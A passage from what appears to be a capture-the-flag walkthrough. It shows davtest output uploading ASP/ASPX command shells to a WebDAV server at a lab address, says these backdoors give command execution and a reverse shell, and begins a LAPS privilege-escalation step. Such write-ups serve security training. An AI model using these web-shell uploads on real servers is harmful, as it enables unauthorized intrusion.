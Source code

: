 ```
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.html
PUT File: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.aspx
Executes: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.asp
Executes: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.txt
Executes: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.html
Executes: http://192.168.197.122/DavTestDir_YuAxJmlk/davtest_YuAxJmlk.aspx
PUT Shell: http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_aspx_cmd.aspx
PUT Shell: http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_asp_cmd.asp
PUT Shell: http://192.168.197.122/DavTestDir_YuAxJmlk/YuAxJmlk_aspx_cmd.aspx
```

`davtest` would place a few backdoors for us, and we can use that to execute commands on the machine:

<figure><img src="../../../.gitbook/assets/image (170) (3).png" alt=""><figcaption></figcaption></figure>

Then, we can easily get a reverse shell as this user.&#x20;

<figure><img src="../../../.gitbook/assets/image (120) (5).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### LAPS--> Administrator Creds

On the machine, LAPS is installed.&#x20;

```
 Directory of C:\Program Files

02/16/2021  11:27 PM    <DIR>          .
02/16/2021  11:27 PM    <DIR>          ..
11/04/2020  05:08 AM    <DIR>          Common Files
11/03/2020  09:34 PM    <DIR>          internet explorer
11/03/2020  10:59 PM    <DIR>          LAPS
11/03/2020  10:37 PM    <DIR>          MSBuild
11/03/2020  10:37 PM    <DIR>          Reference Assemblies
02/16/2021  11:27 PM    <DIR>          VMware
12/08/2020  08:22 PM    <DIR>          Windows Defender
12/08/2020  08:22 PM    <DIR>          Windows Defender Advanced Threat Protection
09/15/2018  12:19 AM    <DIR>          Windows Mail
11/03/2020  09:34 PM    <DIR>          Windows Media Player
09/15/2018  12:19 AM    <DIR>          Windows Multimedia Platform
09/15/2018  12:28 AM    <DIR>          windows nt
11/03/2020  09:34 PM    <DIR>          Windows Photo Viewer
09/15/2018  12:19 AM    <DIR>          Windows Portable Devices
09/15/2018  12:19 AM    <DIR>          Windows Security
09/15/2018  12:19 AM    <DIR>          WindowsPowerShell
```